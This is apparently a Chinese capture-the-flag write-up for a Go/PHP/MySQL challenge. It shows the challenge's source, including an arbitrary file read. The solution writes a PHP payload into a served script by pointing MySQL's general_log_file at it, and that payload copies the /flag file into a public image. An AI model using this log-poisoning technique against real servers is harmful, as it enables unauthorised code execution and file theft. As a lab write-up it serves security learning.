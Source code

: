 ![](./img/mygo_desc.png)

Hint
---

![](./img/mygo_hint_0.png)

这个是说`Dockerfile`没删

![](./img/mygo_hint_1.png)

这个是说有Go的源码

![](./img/mygo_hint_2.png)

这个是说可以任意文件读

Solution
---

```
/Dockerfile
```

```docker
FROM mysql:debian
EXPOSE 8080
RUN apt-get update && apt-get install -y php
COPY . /app
WORKDIR /app
ENTRYPOINT [ "./docker-entrypoint.sh" ]
```

```
/docker-entrypoint.sh
```

```bash
#!/bin/sh
mysqld --initialize-insecure --datadir=/var/lib/mysql
mysqld --user=root &

while true; do
    mysql -e "show databases;" > /dev/null 2>&1
    if [ $? -eq 0 ]; then
        break
    fi
    sleep 1
done
mysql -e "CREATE USER 'root'@'127.0.0.1' IDENTIFIED BY 'root'; GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1'; FLUSH PRIVILEGES;"
chown -R mysql:mysql /app
echo $FLAG > /flag
unset FLAG
./mygo
```

```
/main.go
```

```go
// ...

func generateRandomImage() error {
	cmd := exec.Command("php", "./rand_img.php")
	_, err := cmd.Output()
	return err
}

func getHandler(db *sql.DB) func(http.ResponseWriter, *http.Request) {
	return func(w http.ResponseWriter, r *http.Request) {
		if r.URL.Path != "/" {
			http.ServeFile(w, r, r.URL.Path[1:])
			return
		}
		generateRandomImage()
		data := ""
		if r.URL.Query().Get("go") != "" {
			result, err := query(r.URL.Query().Get("go"), db)
			if err != nil {
				data = err.Error()
			} else {
				data = result
			}

		}
		tmpl := template.Must(template.ParseFiles("index.html"))
		tmpl.Execute(w, data)
	}
}

func main() {
	// ...
	http.HandleFunc("/", getHandler(db))
	err = http.ListenAndServe(":8080", nil)
	if err != nil {
		log.Printf("[ERROR] Failed to listen and serve: %v\n", err)
		return
	}
}
```

```
/rand_img.php
```

```php
<?php
$files = glob('imgs/*.*');
$file = array_rand($files);
copy($files[$file], 'image.jpg');
?>
```

通过MySQL日志写入文件，借由`image.jpg`带出

```sql
set global general_log_file="/app/rand_img.php";
set global general_log = 'ON';
select "<?php file_put_contents('image.jpg', file_get_contents('/flag')); ?>"
```

![](./img/mygo_solution.png)
